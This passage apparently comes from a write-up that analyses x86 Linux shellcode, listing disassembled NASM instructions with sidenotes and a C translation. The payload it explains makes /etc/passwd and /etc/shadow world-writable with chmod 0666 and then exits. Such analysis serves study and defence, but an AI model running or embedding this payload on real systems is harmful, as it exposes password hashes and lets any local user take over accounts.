 ```nasm

                            ; chmod(EBX, ECX)
                            ; ECX = permissions u=rw, g=rw, o=rw
00000018  B00F              mov al,0xf
0000001A  CD80              int 0x80
```

{% sidenote First it runs the instruction `chmod("/etc//passwd", 0666)` to change the permissions over `/etc/passwd` %}

```nasm
                            ; EAX = 0
0000001C  31C0              xor eax,eax
0000001E  50                push eax

                            ; "/etc//shadow"
0000001F  6861646F77        push dword 0x776f6461
00000024  682F2F7368        push dword 0x68732f2f
00000029  682F657463        push dword 0x6374652f

                            ; EBX = pointer to "/etc//shadow"
0000002E  89E3              mov ebx,esp

                            ; call chmod(EBX, ECX)
                            ; ECX = permissions u=rw, g=rw, o=rw
00000030  B00F              mov al,0xf
00000032  CD80              int 0x80
```

{% sidenote After that it runs the instruction `chmod("/etc//shadow", 0666)` to change the permissions over `/etc/shadow` %}

```nasm
                            ; call exit syscall
00000034  31C0              xor eax,eax
00000036  40                inc eax
00000037  CD80              int 0x80
```

{% sidenote Finally it exits using `exit(EBX)` %}

It translates into the following C program:

```cpp
#include <sys/stat.h>
#include <stdlib.h>

int main(int argc, char *argv[])
{
  chmod("/etc//passwd", 0666);
  chmod("/etc//shadow", 0666);

  // EBX is equal to ESP, so it's just a random exit code
  exit(EBX);
}
```
